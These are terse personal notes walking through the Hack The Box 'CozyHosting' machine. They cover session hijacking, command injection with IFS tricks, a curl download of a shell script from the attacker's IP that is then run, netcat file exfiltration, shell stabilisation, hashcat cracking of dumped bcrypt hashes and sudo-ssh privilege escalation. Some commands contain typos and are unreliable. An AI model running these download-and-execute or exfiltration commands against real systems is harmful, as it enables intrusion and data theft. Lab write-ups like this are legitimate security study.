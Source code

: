 ```yaml
---
description: easy machine
---
```


# CozyHosting

**cozyhosting - htb**

_<mark style="color:green;">**session hijacking**</mark>_

sessionid : BD3A77A4C619FE9B42DB59C040DCDA99

_<mark style="color:green;">**Brupsuite**</mark>_

White Space injection for reserve shell

`IFS=_;command='id';$command`

`curl` [`http://10.10.14.225/shell.sh`](http://10.10.14.225/shell.sh) `--output /tmp/shell.sh`

`chmod 777 /tmp/shell.sh`

\
`/tmp/shell/sh`

&#x20;

_<mark style="color:green;">**Learned tips:**</mark>_

&#x20;

`egrep -ir 'password' .`

`cat output.txt | nc yourip port`

`nc -nlvp port > output.txt`

_foreground:_

`stty raw -echo; fg`

[<mark style="color:green;">--------spawn interactive shell-----------</mark>](#user-content-fn-1)[^1]

`<LL=bash; export TERM=xterm; stty rows 24 columns 80`

Postgres Hash:

name    |                           password                           | role \
\-----------+--------------------------------------------------------------+-------\
&#x20;kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User\
&#x20;admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin

_<mark style="color:green;">**HaShcat:**</mark>_

`hashcat -help | grep -I '$2'`

`hashcat -m ././hash.txt /././rockyou.txt --potfile-disable`

&#x20;

_<mark style="color:green;">**Less prev:**</mark>_

`Sudo -l`

&#x20;

&#x20;

_**Seems we have ssh executable prev.**_

&#x20;

`Gtfobin - sudo - ssh - prev excu`

&#x20;

Done :smile:&#x20;

[^1]: 

